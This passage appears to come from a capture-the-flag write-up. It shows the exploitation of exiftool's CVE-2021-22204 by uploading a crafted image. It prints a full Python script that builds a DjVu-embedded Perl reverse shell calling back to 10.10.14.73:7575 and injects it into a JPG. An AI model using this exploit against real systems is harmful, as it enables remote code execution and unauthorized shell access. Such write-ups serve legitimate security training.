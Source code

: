 Uploading a test `jpg` the output looks like straight from exiftool.

[![020_exiftool_out](/img/meta/020_exiftool_out.png)](/img/meta/020_exiftool_out.png)

There has been a recent CVE(CVE-2021-22204)with remote code execution in exiftool. Using this [PoC](https://github.com/convisolabs/CVE-2021-22204-exiftool) where we only have to adjust our ip address to tun0 and the port to where we want to catch the reverse shell we can generate an image that sends a python reverse shell back to our machine.

`exploit.py`
```py
#!/bin/env python3

import base64
import subprocess

ip = '10.10.14.73'
port = '7575'

payload = b"(metadata \"\c${use MIME::Base64;eval(decode_base64('"


payload = payload + base64.b64encode( f"use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in({port},inet_aton('{ip}')))){{open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');}};".encode() )

payload = payload + b"'))};\")"


payload_file = open('payload', 'w')
payload_file.write(payload.decode('utf-8'))
payload_file.close()


subprocess.run(['bzz', 'payload', 'payload.bzz'])
subprocess.run(['djvumake', 'exploit.djvu', "INFO=1,1", 'BGjp=/dev/null', 'ANTz=payload.bzz'])
subprocess.run(['exiftool', '-config', 'configfile', '-HasselbladExif<=exploit.djvu', 'image.jpg'])
```
